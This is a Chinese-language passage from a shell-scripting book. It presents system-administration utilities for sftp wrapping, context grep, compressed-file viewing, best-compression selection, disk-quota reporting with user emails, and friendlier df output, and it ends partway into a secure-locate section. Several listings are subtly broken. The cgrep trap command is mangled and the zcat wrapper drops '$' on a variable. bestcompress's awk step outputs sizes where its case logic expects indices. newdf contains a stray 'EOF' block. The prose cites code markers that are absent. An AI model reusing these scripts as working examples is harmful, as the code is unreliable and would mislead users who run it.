与`ftp`客户端一样，如果用户省略了远程主机，脚本会继续提示输入远程主机。如果脚本以`mysftp remotehost`方式调用，则使用提供的`remotehost`。

#### 运行结果

让我们看看在不带任何参数调用此脚本与不带任何参数调用`sftp`时会发生什么。代码清单 4-10 显示了运行`sftp`的情况。

```
$ sftp
usage: sftp [-1246Cpqrv] [-B buffer_size] [-b batchfile] [-c cipher]
    -D sftp_server_path] [-F ssh_config] [-i identity_file] [-l limit]
    [-o ssh_option] [-P port] [-r num_requests] [-S program]
    [-s subsystem | sftp_server] host
    sftp [user@]host[:file ...]
    sftp [user@]host[:dir[/]]
    sftp -b batchfile [user@]host
```

代码清单 4-10：在没有参数的情况下运行`sftp`工具会产生非常晦涩的帮助输出。

这很有用但令人困惑。相比之下，使用`mysftp`脚本你可以直接进行实际连接，如代码清单 4-11 所示。

```
$ mysftp
User account: taylor
Remote host: intuitive.com
Connecting to intuitive.com...
taylor@intuitive.com's password:
sftp> quit
```

代码清单 4-11：在没有参数的情况下运行`mysftp`脚本要清晰得多。

通过提供远程主机，像在`ftp`会话中一样调用该脚本，它将提示输入远程账户名称（详见代码清单 4-12），然后透明地调用`sftp`。

```
$ mysftp intuitive.com
User account: taylor
Remote host: intuitive.com
Connecting to intuitive.com...
taylor@intuitive.com's password:
sftp> quit
```

代码清单 4-12：运行带有单个参数（要连接的主机）的`mysftp`脚本

#### 脚本改造

当你拥有这样一个脚本时，始终要思考的是它是否可以成为自动化备份或同步工具的基础，而`mysftp`正是一个完美的候选者。因此，一个很棒的改造方案是在你的系统上指定一个目录，然后编写一个封装程序来创建关键文件的 ZIP 归档，并使用`mysftp`将它们复制到服务器或云存储系统中。事实上，我们将在本书后面的第 229 页通过脚本 #72 来实现这一点。

### #32 修复`grep`

某些版本的`grep`提供了极其丰富的功能，其中包括一个特别实用的能力：显示文件中匹配行前后的上下文（上方和下方的一两行）。此外，某些版本的`grep`还可以高亮显行中匹配指定模式的区域（至少对于简单模式是如此）。你可能已经拥有这样一个版本的`grep`，但也可能没有。

幸运的是，这两个功能都可以通过 shell 脚本来模拟，因此即使你使用的是一个带有相对原始的`grep`命令的老旧商业 Unix 系统，仍然可以使用它们。要指定匹配模式行上方和下方的上下文行数，请使用`-c`值，随后跟上要匹配的模式。此脚本（如清单 4-13 所示）还借鉴了 ANSI 颜色脚本（第 40 页的脚本 #11）来实现区域高亮。

#### 代码

```bash
#!/bin/bash

# cgrep-- grep with context display and highlighted pattern matches

context=0
esc="\e"

boldon="${esc}[1m" boldoff="${esc}[22m"
sedscript="/tmp/cgrep.sed.$$"
tempout="/tmp/cgrep.$$"

function showMatches
{
    matches=0

    echo "s/\$pattern/${boldon}\$pattern${boldoff}/g" > $sedscript

    for lineno in $(grep -n "\$pattern" $1 | cut -d: -f1)
    do
        if [ $context -gt 0 ]; then
            prev=$(($lineno - $context))

            if [ $prev -lt 1 ]; then
                # This results in "invalid usage of line address 0."
                prev="1"
            fi
            next=$(($lineno + $context))

            if [ $matches -gt 0 ]; then
                echo "${prev}i\\\n" >> $sedscript
                echo "----" >> $sedscript
            fi
            echo "${prev},${next}p" >> $sedscript
        else
            echo "${lineno}p" >> $sedscript
        fi
        matches="$(( $matches + 1 ))"
    done

    if [ $matches -gt 0 ]; then
        sed -n -f $sedscript $1 | uniq | more
    fi
}

trap "{which rm} -f $tempout $sedscript" EXIT

if [ -z "$1" ]; then
    echo "Usage: $0 [-c X] pattern {filename}" >&2
    exit 0
fi

if [ "$1" = "-c" ]; then
    context="$2"
    shift; shift
elif [ "$(echo $1|cut -c1-2)" = "-c" ]; then
    context="$(echo $1 | cut -c3-)"
    shift
fi

pattern="$1"; shift

if [ $# -gt 0 ]; then
    for filename ; do
        echo "------ $filename ------"
        showMatches $filename
    done
else
    cat - > $tempout   # Save stream to a temp file.
    showMatches $tempout
fi

exit 0
```

清单 4-13：`cgrep`脚本

#### 工作原理

该脚本使用`grep -n`获取文件中所有匹配行的行号 ❶，然后根据指定的上下文行数，确定显示每个匹配项的起始行 ❷ 和结束行 ❸。这些内容被写入到 ❹ 定义的临时`sed`脚本中，该脚本执行一个单词替换命令，将指定的模式包裹在 ANSI 的“粗体开启”和“粗体关闭”序列中。简而言之，这就是该脚本 90% 的工作内容。

脚本中另一个值得提及的是实用的`trap`命令 ❺，它允许你将事件绑定到 shell 的脚本执行系统本身。第一个参数是你想要调用的命令或命令序列，随后的所有参数都是具体的信号（事件）。在这种情况下，我们告诉 shell 当脚本退出时，调用`rm`来删除这两个临时文件。

使用`trap`的特别之处在于，无论你在脚本的哪个位置退出，它都能起作用，而不仅仅是在脚本最底部。在后续的脚本中，你会看到`trap`可以绑定到各种各样的信号，而不仅仅是 SIGEXIT（或 EXIT，或 SIGEXIT 的数字等价值 0）。事实上，你可以为不同的信号关联不同的`trap`命令，因此，如果有人向脚本发送 SIGQUIT (CTRL-C)，你可以输出一条“已清理临时文件”的消息，而这条消息在常规 (SIGEXIT) 事件中则不会显示。

#### 运行脚本

该脚本既可以处理输入流（在这种情况下，它将输入保存到临时文件中，然后像在命令行指定文件名一样处理该临时文件），也可以处理命令行上列出的一个或多个文件。清单 4-14 展示了通过命令行传递单个文件的情况。

#### 结果

```
$ cgrep -c 1 teacup ragged.txt
---- ragged.txt ----
in the wind, and the pool rippling to the waving of the reeds--the
rattling teacups would change to tinkling sheep-bells, and the
Queen's shrill cries to the voice of the shepherd boy--and the
```

清单 4-14：测试`cgrep`脚本

#### 改进脚本

对该脚本的一个实用改进是让它在返回匹配行的同时返回行号。

### #33 处理压缩文件


在 Unix 发展的多年时间里，很少有程序像`compress`一样被如此多次地重新考量和重新开发。在大多数 Linux 系统上，可以使用三种显著不同的压缩程序：`compress`、`gzip`和`bzip2`。每种程序使用不同的后缀（分别为`.Z`、`.gz`和`.bz2`），且压缩程度在三种程序之间可能有所不同，这取决于文件内数据的布局。

无论压缩级别如何，无论安装了哪种压缩程序，在许多 Unix 系统上处理压缩文件都需要手动解压缩，完成所需任务，然后在结束后重新压缩。这太繁琐了，因此正是一个 shell 脚本大显身手的好机会！清单 4-15 中详细介绍的脚本为你在处理压缩文件时经常想要使用的三个功能——`cat`、`more`和`grep`——提供了一个方便的压缩/解压缩包装器。

### 代码

```bash
#!/bin/bash

# zcat, zmore, and zgrep--This script should be either symbolically
# linked or hard linked to all three names. It allows users to work with
# compressed files transparently.

Z="compress"; unZ="uncompress" ; Zlist=""
gz="gzip" ; ungz="gzip" ; gzlist=""
bz="bzip2" ; unbz="bunzip2" ; bzlist=""

# First step is to try to isolate the filenames in the command line.
# We’ll do this lazily by stepping through each argument, testing to
# see whether it’s a filename. If it is and it has a compression
# suffix, we’ll decompress the file, rewrite the filename, and proceed.
# When done, we’ll recompress everything that was decompressed.

for arg
do
    if [ -f "$arg" ] ; then
        case "$arg" in
            *.Z) unZ "$arg"
                arg="$(echo $arg | sed 's/\.Z$//')"
                Zlist="$Zlist \"$arg\""
                ;;

            *.gz) ungz "$arg"
                arg="$(echo $arg | sed 's/\.gz$//')"
                gzlist="$gzlist \"$arg\""
                ;;

            *.bz2) unbz "$arg"
                arg="$(echo $arg | sed 's/\.bz2$//')"
                bzlist="$bzlist \"$arg\""
                ;;
        esac
    fi
    newargs="${newargs:-""} \"$arg\""
done

case $0 in
    *zcat* ) eval cat $newargs ;;
    *zmore* ) eval more $newargs ;;
    *zgrep* ) eval grep $newargs ;;
    * ) echo "$0: unknown base name. Can't proceed." >&2
        exit 1
esac

# Now recompress everything.

if [ ! -z "$Zlist" ]; then
    eval $Z $Zlist
fi
if [ ! -z "$gzlist" ]; then
    eval $gz $gzlist
fi
if [ ! -z "$bzlist" ]; then
    eval $bz $bzlist
fi

# And done!

exit 0
```

清单 4-15：`zcat/zmore/zgrep`脚本

### 工作原理

对于任何给定的后缀，都需要三个步骤：解压缩文件、重命名文件名以移除后缀，以及将其添加到脚本末尾待重新压缩的文件列表中。通过为每个压缩程序维护三个单独的列表，该脚本还可以让你轻松地在由不同压缩工具压缩的文件之间执行`grep`。

最重要的技巧是在重新压缩文件时使用`eval`指令❶❷❸。这是为了确保包含空格的文件名能够被正确处理。当`Zlist`、`gzlist`和`bzlist`变量被实例化时，每个参数都被引号包围，因此典型的值可能是`"sample.c" "test.pl" "penny.jar"`。由于列表具有嵌套引号，调用像`cat $Zlist`这样的命令会导致`cat`抱怨找不到文件`"sample.c"`。为了强制 shell 像在命令行输入命令一样运行（在命令行中，引号在用于参数解析后会被剥离），请使用`eval`，这样一切将按预期运行。

### 运行脚本

为了正常工作，该脚本应该有三个名称。在 Linux 中如何实现？很简单：链接。你可以使用符号链接（存储链接目标名称的特殊文件），或者硬链接（实际上被分配与链接文件相同的 inode）。我们更倾向于使用符号链接。这些链接很容易创建（此处脚本已被命名为`zcat`），如清单 4-16 所示。

```bash
$ ln -s zcat zmore
$ ln -s zcat zgrep
```

清单 4-16：将`zcat`脚本符号链接到`zmore`和`zgrep`命令

完成后，你将拥有三个具有相同实际（共享）内容的命令，每个命令都可以根据需要接收一个要处理的文件列表，在处理完毕后对其进行解压缩然后重新压缩。

### 结果

随处可见的`compress`工具能快速压缩`ragged.txt`并为其添加`.Z`后缀：

```bash
$ compress ragged.txt
```

在`ragged.txt`处于压缩状态时，我们可以使用`zcat`查看文件，详见代码清单 4-17。

```text
$ zcat ragged.txt.Z
So she sat on, with closed eyes, and half believed herself in
Wonderland, though she knew she had but to open them again, and
all would change to dull reality--the grass would be only rustling
in the wind, and the pool rippling to the waving of the reeds--the
rattling teacups would change to tinkling sheep-bells, and the
Queen's shrill cries to the voice of the shepherd boy--and the
sneeze of the shaggy, the shriek of the Gryphon, and all the other
queer noises, would change (she knew) to the confused clamour of
the busy farm-yard--while the lowing of the cattle in the distance
would take the place of the Mock Turtle's heavy sobs.
```

代码清单 4-17：使用`zcat`打印压缩的文本文件

然后再次搜索`teacup`。

```bash
$ grep teacup ragged.txt.Z
rattling teacups would change to tinkling sheep-bells, and the
```

在此过程中，文件始终以其原始压缩状态开始和结束，如代码清单 4-18 所示。

```text
$ ls -l ragged.txt*
-rw-r--r-- 1 taylor staff 443 Jul 7 16:07 ragged.txt.Z
```

代码清单 4-18：`ls`的结果，仅显示压缩文件存在

### 修改脚本

该脚本最大的弱点可能在于，如果在运行中途被取消，文件不保证会被重新压缩。一个不错的改进方案是巧妙地利用`trap`功能和一个具有错误检查功能的重新压缩函数来修复这个问题。

## 34 确保文件的最大压缩率

正如第 109 页的脚本 #33 中所强调的，大多数 Linux 实现包含多种压缩方法，但用户需要自行研究哪一种对给定文件的压缩效果最好。因此，用户通常只学习如何使用一种压缩程序，而没有意识到使用另一种程序可能会获得更好的结果。更令人困惑的是，某些文件使用某种算法的压缩效果比另一种更好，如果不经过实验，无法知道哪种更好。

一个逻辑上的解决方案是编写一个脚本，使用每种工具对文件进行压缩，然后选择结果文件最小的那个作为最佳方案。这正是`bestcompress`所做的事情，如代码清单 4-19 所示！

### 代码

```bash
#!/bin/bash

# bestcompress--Given a file, tries compressing it with all the available
# compression tools and keeps the compressed file that's smallest,
# reporting the result to the user. If -a isn't specified, bestcompress
# skips compressed files in the input stream.

Z="compress" gz="gzip" bz="bzip2"
Zout="/tmp/bestcompress.$$Z"
gzout="/tmp/bestcompress.$$gz"
bzout="/tmp/bestcompress.$$bz"
skipcompressed=1

if [ "$1" = "-a" ]; then
    skipcompressed=0 ; shift
fi

if [ $# -eq 0 ]; then
    echo "Usage: $0 [-a] file or files to optimally compress" >&2
    exit 1
fi

trap "/bin/rm -f $Zout $gzout $bzout" EXIT

for name in "$@"
do
    if [ ! -f "$name" ]; then
        echo "Error: $name not found. Skipped." >&2
        continue
    fi

    if [ "$(echo $name | egrep '(\.Z$|\.gz$|\.bz2$)' )" != "" ]; then
        if [ $skipcompressed -eq 1 ]; then
            echo "Skipped file ${name}: It's already compressed."
            continue
        fi
    else
        echo "Warning: Trying to double-compress $name"
    fi

    # Try compressing all three files in parallel.
    $Z < "$name" > $Zout &
    $gz < "$name" > $gzout &
    $bz < "$name" > $bzout &

    wait # Wait until all compressions are done.

    # Figure out which compressed best.
    smallest="$(ls -l "$name" "$Zout" "$gzout" "$bzout" | \
        awk '{print $5}' | sort -n | head -1)"

    case "$smallest" in
        1 ) echo "No space savings by compressing $name. Left as is."
           ;;
        2 ) echo "Best compression is with compress. File renamed ${name}.Z"
           mv $Zout "${name}.Z"; rm -f "$name"
           ;;
        3 ) echo "Best compression is with gzip. File renamed ${name}.gz"
           mv $gzout "${name}.gz"; rm -f "$name"
           ;;
        4 ) echo "Best compression is with bzip2. File renamed ${name}.bz2"
           mv $bzout "${name}.bz2"; rm -f "$name"
    esac
done

exit 0
```

代码清单 4-19：`bestcompress`脚本

### 工作原理

此脚本中最有趣的一行在❷处。这一行让`ls`输出每个文件的大小（原始文件和三个压缩文件，按已知顺序），使用`awk`仅截取文件大小，对其进行数值排序，最后得出结果文件最小的那一行的行号。如果所有压缩版本的体积都比原文件大，结果将是 1，并打印一条相应的消息❸。否则，`smallest`将指示`compress`、`gzip`或`bzip2`中哪个效果最好。接下来的步骤只需将相应的文件移动到当前目录并删除原文件即可。

从❶开始的三个压缩调用也值得注意。这些调用通过在末尾使用`&`将每个调用放入各自的子 shell 中来并行执行，随后调用`wait`，该调用会停止脚本运行，直到所有调用全部完成。在单处理器上，这可能不会带来太多性能提升，但在多处理器上，它应该能分散任务并可能快得多地完成。

### 运行脚本

调用此脚本时应提供要压缩的文件名列表。如果其中一些文件已经压缩且你想尝试进一步压缩，请使用`-a`标志；否则它们将被跳过。

### 结果

演示此脚本的最佳方式是使用一个需要压缩的文件，如代码清单 4-20 所示。

```text
$ ls -l alice.txt
-rw-r--r-- 1 taylor staff 154872 Dec 4 2002 alice.txt
```

代码清单 4-20：显示《爱丽丝梦游仙境》副本的`ls`输出。注意文件大小为 154872 字节。

脚本隐藏了使用三种压缩工具分别压缩文件的过程，而只是简单地显示结果，如代码清单 4-21 所示。

```text
$ bestcompress alice.txt
Best compression is with compress. File renamed alice.txt.Z
```

代码清单 4-21：在`alice.txt`上运行`bestcompress`脚本

代码清单 4-22 表明该文件现在小了很多。

```text
$ ls -l alice.txt.Z
-rw-r--r-- 1 taylor wheel 66287 Jul 7 17:31 alice.txt.Z
```

代码清单 4-22：证明压缩后文件的大小（66287 字节）比代码清单 4-20 中大幅减少

# 5 系统管理：管理用户

无论是 Windows、OS X 还是 Unix，没有任何一个复杂的操作系统可以在没有人工干预的情况下无限期运行。如果你在一个多用户 Linux 系统上，已经有人在执行必要的系统管理任务。你可能会忽略那个管理和维护一切的“幕后之人”，或者你本身就是那位掌控全局、通过拉动杠杆和按下按钮来维持系统运行的“伟大的奥兹”。如果你使用的是单用户系统，那么你应该定期执行一些系统管理任务。

幸运的是，简化 Linux 系统管理员的生活（本章的目标）是 shell 脚本最常见的用途之一。事实上，相当多的 Linux 命令实际上就是 shell 脚本，而许多最基础的任务，如添加用户、分析磁盘使用情况以及管理访客账户的文件空间，都可以通过简短的脚本更高效地完成。

令人惊讶的是，许多系统管理脚本长度不超过 20 到 30 行。天哪，你可以使用 Linux 命令来识别脚本，并通过管道计算出每个脚本包含多少行。以下是`/usr/bin/`中的最短 15 个脚本：

```text
$ file /usr/bin/* | grep "shell script" | cut -d: -f1 | xargs wc -l \
| sort -n | head -n15
  3 zcmp
  3 zegrep
  3 zfgrep
  6 mkfontdir
  5 pydoc
  7 sgmlwhich
  8 batch
  8 ps2pdf12
  8 ps2pdf13
  8 ps2pdf14
  9 timed-read
  9 timed-run
 10 c89
 10 c99
 10 neqn
```

`/usr/bin/`目录中最短的 15 个脚本中没有一个超过 10 行。而长度为 10 行的等式格式化脚本`neqn`是一个很好的例子，展示了一个简单的 shell 脚本如何真正提升用户体验：


```bash
#!/bin/bash
# Provision of this shell script should not be taken to imply that use of
# GNU eqn with groff -Tascii|-Tlatin1|-Tutf8|-Tcp1047 is supported.

: ${GROFF_BIN_PATH=/usr/bin}
PATH=$GROFF_BIN_PATH:$PATH
export PATH
exec eqn -Tascii "$1" "$@"

# eof
```

与`neqn`一样，本章介绍的脚本都简短且实用，提供了一系列管理功能，包括简便的系统备份；用户及其数据的创建、管理和删除；一个用于修改当前日期和时间的`date`命令易用前端；以及一个用于验证`crontab`文件的实用工具。

## #35 分析磁盘使用情况

尽管大容量磁盘已经出现且价格持续下降，但系统管理员似乎仍然需要时刻关注磁盘使用情况，以确保共享驱动器不会被填满。

最常见的监控技术是查看`/usr`或`/home`目录，使用`du`命令来确定所有子目录的磁盘使用情况，并报告前 5 或 10 名用户。然而，这种方法的问题在于它没有考虑到硬盘上其他位置的空间使用情况。如果某些用户在第二个驱动器上有额外的归档空间，或者有一些狡猾的人将 MPEG 文件保存在`/tmp`的隐藏目录（点目录）中，或者保存在`/ftp`区域的未使用目录中，那么这些使用情况将无法被检测到。此外，如果主目录分布在多个驱动器上，搜索每个`/home`并不一定是最佳方案。

相反，一个更好的解决方案是从`/etc/passwd`文件中直接获取所有账户名称，然后搜索文件系统中每个账户拥有的文件，如清单 5-1 所示。

### 代码

```bash
#!/bin/bash

# quota-Disk quota analysis tool for Unix; assumes all user
# accounts are >= UID 100

MAXDISKUSAGE=20000  # 以兆字节 (MB) 为单位

for name in $(cut -d: -f1,3 /etc/passwd | awk -F ': ' '$2 > 99 {print $1}')
do
    /bin/echo -n "User $name exceeds disk quota. Disk usage is: "
    # 您可能需要修改以下目录列表以匹配您的磁盘布局。
    # 最常见的修改是将 /Users 改为 /home。
    find / /usr /var /Users -xdev -user $name -type f -ls | \
        awk '{ sum += $ 7} END { print sum / (1024*1024) " Mbytes" }'

done | awk "$9 > $MAXDISKUSAGE { print $0 }"

exit 0
```

*清单 5-1：`fquota`脚本*

### 工作原理

按照惯例，用户 ID 1 到 99 用于系统守护进程和管理任务，而 100 及以上用于用户账户。由于 Linux 管理员通常比较有组织，因此该脚本会跳过所有 uid 小于 100 的账户。

`find`命令的`-xdev`参数 ❶ 确保`find`不会遍历所有文件系统。换句话说，这个参数防止命令在系统区域、只读源目录、可移动设备、运行进程的`/proc`目录（在 Linux 上）以及类似区域中缓慢爬行。这就是为什么我们明确指定`/usr`、`/var`和`/home`等目录的原因。为了备份和管理目的，这些目录通常位于各自独立的文件系统中。如果它们与根文件系统位于同一个文件系统中，将它们添加进来并不意味着会被搜索两次。

乍一看，这个脚本似乎会为每个账户输出一条`exceeds disk quota`（超过磁盘配额）消息，但循环后的`awk`语句 ❷ 仅允许为使用量大于预定义`MAXDISKUSAGE`的账户报告此消息。

### 运行脚本

该脚本没有参数，应以 root 身份运行，以确保其能够访问所有目录和文件系统。最智能的方法是使用便捷的`sudo`命令（在终端运行`man sudo`命令以了解更多详情）。为什么`sudo`很有用？因为它允许您以 root 身份执行`一条`命令，之后您将恢复为普通用户。每次想要运行管理命令时，您必须有意识地使用`sudo`这样做。相比之下，使用`su - root`会使您在退出子 shell 之前的所有后续命令都具有 root 权限，当您分心时，很容易忘记自己是 root 从而输入一些可能导致灾难的内容。

> **注意** 您必须修改`find`命令 ❶ 中列出的目录，以匹配您自己磁盘拓扑结构中的相应目录。

### 运行结果

因为该脚本在多个文件系统中搜索，所以运行需要一段时间并不奇怪。在大型系统上，运行时间可能在喝一杯茶到与伴侣共进午餐之间。清单 5-2 详细列出了结果。

```bash
$ sudo fquota
User taylor exceeds disk quota. Disk usage is: 21799.4 Mbytes
```

*清单 5-2：测试`fquota`脚本*

您可以看到 taylor 的磁盘使用情况完全失控了！他的 21GB 绝对超过了每用户 20GB 的配额。

### 改进脚本

这类完整的脚本应该具备某种自动电子邮件功能，以警告那些占用过多磁盘空间的违规者。这种增强功能将在接下来的脚本中演示。

## #36 报告磁盘占用大户

大多数系统管理员寻求解决问题最简单的方法，而管理磁盘配额最简单的方法就是扩展`fquota`（第 119 页的脚本 #35），直接向占用空间过多的用户发送电子邮件警告，如清单 5-3 所示。

### 代码

```bash
#!/bin/bash

# diskhogs--Disk quota analysis tool for Unix; assumes all user
# accounts are >= UID 100. Emails a message to each violating user
# and reports a summary to the screen.

MAXDISKUSAGE=500
violators="/tmp/diskhogs0.$$"

trap "rm -f $violators" EXIT

for name in $(cut -d : -f1,3 /etc/passwd | awk -F : '$2 > 99 { print $1 }')
do
    /bin/echo -n "$name "
    # 您可能需要修改以下目录列表以匹配您的磁盘布局。
    # 最常见的修改是将 /Users 改为 /home。
    find /usr /var /Users -xdev -user $name -type f -ls | \
        awk '{ sum += $7 } END { print sum / (1024*1024) }'

done | awk "$2 > $MAXDISKUSAGE { print $0 }" > $violators

if [ ! -s $violators ]; then
    echo "No users exceed the disk quota of ${MAXDISKUSAGE}MB"
    exit 0
fi

while read account usage ; do

    cat << EOF | mail -s "Warning: $account Exceeds Quota" $account
Your disk usage is ${usage}MB, but you have been allocated only
${MAXDISKUSAGE}MB. This means that you need to delete some of your
files, compress your files (see 'gzip' or 'bzip2' for powerful and
easy-to-use compression programs), or talk with us about increasing
your disk allocation.

Thanks for your cooperation in this matter.

Your friendly neighborhood sysadmin
EOF

    echo "Account $account has $usage MB of disk space. User notified."
done < $violators

exit 0
```

*清单 5-3：`diskhogs`脚本*

### 工作原理

该脚本以脚本 #35 为基础，更改部分标记为 ❶、❷、❸、❹ 和 ❺。请注意在 ❺ 处的电子邮件流水线中增加了`fmt`命令（注：原文代码块中未体现 fmt，但文字描述提及）。

这个便捷的技巧可以改善自动生成电子邮件的外观，特别是当像`$account`这样长度未知的字段被嵌入文本时。该脚本中 for 循环 ❸ 的逻辑与脚本 #35 中的 for 循环逻辑略有不同：因为该脚本中循环的输出纯粹是为了给脚本的第二部分使用，所以在每个循环周期中，脚本仅报告账户名称和磁盘使用量，而不是报告磁盘配额超限的错误消息。

### 运行脚本

该脚本没有启动参数，应以 root 身份运行以获得准确结果。最安全的方法是使用`sudo`命令，如清单 5-4 所示。

### 运行结果

```bash
$ sudo dishogs
Account ashley has 539.7MB of disk space. User notified.
Account taylor has 91799.4MB of disk space. User notified.
```

*清单 5-4：测试`dishogs`脚本*

如果我们现在窥视 ashley 账户的邮箱，会发现脚本发送的一条消息，如清单 5-5 所示。

```text
Subject: Warning: ashley Exceeds Quota

Your disk usage is 539.7MB, but you have been allocated only 500MB. This means that you need to delete some of your files, compress your files (see ‘gzip’ or ‘bzip2’ for powerful and easy-to-use compression programs), or talk with us about increasing your disk allocation.

Thanks for your cooperation in this matter.

Your friendly neighborhood sysadmin
```

*清单 5-5：发送给磁盘占用大户用户 ashley 的电子邮件*

### 改进脚本

对该脚本的一个有用改进是允许某些用户拥有比其他用户更高的配额。这可以通过创建一个单独的文件来定义每个用户的磁盘配额，并为未出现在文件中的用户在脚本中设置默认配额来实现。包含账户名称和配额对的文件可以使用`grep`扫描，并调用`cut -f2`提取第二个字段。

## #37 提高`df`输出的可读性

`df`工具的输出可能是晦涩难懂的，但我们可以提高其可读性。清单 5-6 中的脚本将`df`报告的字节数转换为更人性化的单位。

### 代码

```bash
#!/bin/bash

# newdf--A friendlier version of df

awkscript="/tmp/newdf.$$"

trap "rm -f $awkscript" EXIT

cat << 'EOF' > $awkscript
function showunit(size)
{
  mb = size / 1024; prettymb=(int(mb * 100)) / 100;
  gb = mb / 1024; prettygb=(int(gb * 100)) / 100;

  if ( substr(size,1,1) !~ "[0-9]" ||
      substr(size,2,1) !~ "[0-9]" ) { return size }
  else if ( mb < 1 ) { return size "K" }
  else if ( gb < 1 ) { return prettymb "M" }
  else
  {
    return prettygb "G"
  }
}

BEGIN {
  printf "%-37s %10s %7s %7s %8s %-s\n",
         "Filesystem", "Size", "Used", "Avail", "Capacity", "Mounted"
}

!/Filesystem/ {
  size=showunit($2);
  used=showunit($3);
  avail=showunit($4);

  printf "%-37s %10s %7s %7s %8s %-s\n",
         $1, size, used, avail, $5, $6
}
EOF
```

```bash
EOF

> df -k | awk -f $awkscript

exit 0
```

清单 5-6：`newdf`脚本，对`df`进行了封装，使其更易于使用

### 工作原理

此脚本的大部分工作在 awk 脚本中完成。如果直接使用`system()`函数在 awk 中调用`df`，而不是在 shell 中编写，将整个脚本用 awk 编写其实也并不难。（实际上，这个脚本是使用 Perl 重写的理想候选对象，但这超出了本书的讨论范围。）

在这个脚本的 ➊ 和 ➋ 处还使用了一个老派的技巧，竟然是源自 BASIC 编程。

在处理任意精度数值时，限制小数点后位数的一种快捷方法是将该值乘以 10 的幂，将其转换为整数（舍弃小数部分），然后将其除以相同的 10 的幂：`pretty symb=(int(mb * 100)) / 100`。通过这段代码，像 7.0853443234 这样的值就变成了更美观的 7.08。

**注意** 某些版本的`df`具有`-h`标志，其输出格式与此脚本的输出格式类似。然而，与本书中的许多脚本一样，无论系统中安装的是哪个版本的`df`，这个脚本都能让你在每个 Unix 或 Linux 系统上获得友好且更有意义的输出。

### 运行脚本

此脚本没有参数，任何人（无论是 root 还是普通用户）都可以运行。为了避免报告你不感兴趣的设备的磁盘使用情况，请在调用`df`后使用`grep -v`。

### 运行结果

常规的`df`报告很难理解，如清单 5-7 所示。

```text
$ df
Filesystem             512-blocks Used      Available Capacity Mounted on
/dev/disk0s2           935671278 628835600 306414128 68%
devfs                     375      375         0     100% /dev
map -hosts                 0        0         0    100% /net
map auto_home             0        0         0    100% /home
localhost:/mNhtYw9t5GR1S1Ukm9gN1e 935761728 935761728     100% /Volumes/Volumes/MobileBackups
```

清单 5-7：`df`的默认输出冗长且令人困惑。

新脚本利用 awk 来提高可读性，并知道如何将 512 字节块转换为更易读的 GB 格式，如清单 5-8 所示。

```text
$ newdf
Filesystem             Size    Used   Avail Capacity Mounted
/dev/disk0s2          446.2G  299.8G  146.0G     68%       /
devfs                  187K    187K        0    100%     /dev
map -hosts                0        0        0    100%
map auto_home             0        0        0    100%
localhost:/mNhtYw9t5GR1SlUmgKNg1E 446.2G  446.2G        0    100% /Volumes/MobileBackups
```

清单 5-8：`newdf`更易于阅读和理解的输出

### 改进脚本

这个脚本中存在一些陷阱，其中最明显的是很多版本的`df`现在包含了`inode`使用情况，而且许多版本还包含进程级或内部信息，尽管这些信息完全没有意义（例如上述示例中的两个 map 条目）。事实上，如果我们能将这些内容筛选掉，这个脚本会有用得多。因此，你可以做的第一个修改是在脚本末尾调用`df`时使用`-f`标志来移除 inode 使用信息。（你也可以将其添加为新的一列，但这样输出会变得更宽，更难格式化。）至于移除 map 数据之类的内容，用`grep`很容易实现，对吧？只需在末尾添加`|grep -v "map"`，就能永远地屏蔽它们。

## #38 计算可用磁盘空间


虽然脚本 #37 简化了 `df` 的输出使其更易读，但关于系统中可用磁盘空间多少这个更基本的问题也可以通过 shell 脚本来解决。`df` 命令按磁盘报告磁盘使用情况，但输出可能有点令人费解：

```
$ df
Filesystem            1K-blocks    Used  Available Use% Mounted on
/dev/hdb2            25695892    1871048  22519564   8%       /
/dev/hdb1              101089    6218    89652    7%     /boot
none                   127744        0   127744    0%     /dev/shm
```

一个更有用的 `df` 版本将对第 4 列的“可用容量”值求和，并以易读的格式呈现总和。这是一个使用 `awk` 命令的脚本可以轻松完成的任务，如示例 5-9 所示。

### 代码

```bash
#!/bin/bash

# diskspace--总结可用磁盘空间，并以逻辑且易读的方式呈现

tempfile="/tmp/available.$$"
trap "rm -f $tempfile" EXIT

cat << 'EOF' > $tempfile
{
  sum += $4
}
END {
  mb = sum / 1024
  gb = mb / 1024
  printf "%.0f MB (%.2fGB) of available disk space\n", mb, gb
}
EOF

df -k | awk -f $tempfile

exit 0
```

示例 5-9：`diskspace` 脚本，一个带有更友好输出的 `df` 便利封装工具

### 工作原理

`diskspace` shell 脚本主要依赖于一个写入 `/tmp` 目录的临时 awk 脚本。该 awk 脚本使用输入给它的数据计算剩余磁盘空间的总量，然后以用户友好的格式打印结果。`df` 的输出随后通过管道传输给 awk ❶，由其执行 awk 脚本中的操作。当脚本执行完毕后，由于脚本开头运行的 `trap` 命令，临时 awk 脚本将从 `/tmp` 目录中删除。

### 运行脚本

此脚本可以由任何用户运行，它会产生一个简洁的一行总结，显示可用磁盘空间。

### 运行结果

对于产生之前 `df` 输出的同一个系统，此脚本的报告输出类似于示例 5-10 所示。

```
$ diskspace
96199 MB (93.94GB) of available disk space
```

示例 5-10：测试 `diskspace` 脚本

### 改进脚本

如果你的系统在许多多 TB 的驱动器中拥有大量磁盘空间，你可以扩展此脚本，根据需要自动返回以 TB 为单位的值。如果你刚好没空间了，看到 0.03GB 的可用磁盘空间无疑会令人沮丧——但这正是激励你使用第 121 页的脚本 #36 来清理空间的动力，对吧？

另一个需要考虑的问题是，了解所有设备（包括那些无法增长的分区，如 `/boot`）的可用磁盘空间更有用，还是仅报告用户卷就足够了。如果是后者，你可以在 `df` 调用后立即调用 `grep` 来改进此脚本。使用 `grep` 加上所需的设备名称以仅包含特定设备，或使用 `grep -v` 加上不需要的设备名称来筛选掉不希望包含的设备。

## #39 实现安全的 `locate`

`locate` 脚本（第 68 页的脚本 #19）很有用，但存在安全问题：如果构建过程以 root 身份运行，它会构建一个整个系统中所有文件和目录的列表，无论所有者是谁，这使得用户能够看到他们原本没有权限访问的目录和文件名。构建过程可以作为通用用户运行（正如 OS X 所做的那样，以用户 `nobody` 运行 `mklocatedb`），但这也不太正确，因为你希望能够定位目录树中任何位置的文件匹配项，而不管用户 `nobody` 是否有权访问这些特定的文件和目录。

解决这个困境的一种方法是增加保存在 `locate` 数据库中的数据，使每个条目都附带所有者、组和权限字符串。但这样 `mklocatedb` 数据库本身仍然是不安全的，除非 `locate` 脚本作为 setuid 或 setgid 脚本运行，而为了系统安全，这是必须不惜一切代价避免的。

